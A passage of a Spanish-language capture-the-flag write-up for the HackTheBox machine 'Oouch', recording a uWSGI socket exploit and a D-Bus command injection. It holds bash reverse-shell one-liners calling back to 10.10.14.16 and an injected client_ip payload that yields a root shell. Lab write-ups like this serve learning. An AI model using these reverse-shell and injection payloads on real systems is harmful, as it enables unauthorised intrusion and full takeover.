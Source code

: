 ```console
> #!/usr/bin/python
...
>     main()
> EOF

qtc@b14c1692af51:/tmp$ python exploit.py -m unix -u /tmp/uwsgi.socket -c "whoami" # ModuleNotFoundError: No module named 'bytes'
qtc@b14c1692af51:/tmp$ sed -i "/import bytes/d" exploit.py # eliminar la linea problematica
qtc@b14c1692af51:/tmp$ python exploit.py -m unix -u /tmp/uwsgi.socket -c "bash -c 'bash -i >& /dev/tcp/10.10.14.16/6666 0>&1'"
```
Con netcat obtenemos la shell en el puerto 6666 ```sudo nc -nlvp 6666```
Al hacer otra vez
```
>>> import sys; sys.path.insert(0, "/usr/lib/python3/dist-packages"); import dbus
>>> bus = dbus.SystemBus()
>>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
>>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
>>> client_ip = '; ping -c 1 10.10.14.16 #'
>>> response = block_iface.Block(client_ip)
#tenemos traza por tcpdump

>>> client_ip = '; bash -c "bash -i >& /dev/tcp/10.10.14.16/443 0>&1" #'
>>> response = block_iface.Block(client_ip)
```
Obtenemos la shell como root en la máquina -> ```sudo nc -nlvp 443```

-----------------------

# Disclaimer 
He podido hacer está maquina en mi proceso de aprendizaje gracias a:
[s4vitar](https://www.youtube.com/watch?v=uIIZG2miowo)
[0xdf](https://0xdf.gitlab.io/2020/08/01/htb-oouch.html)
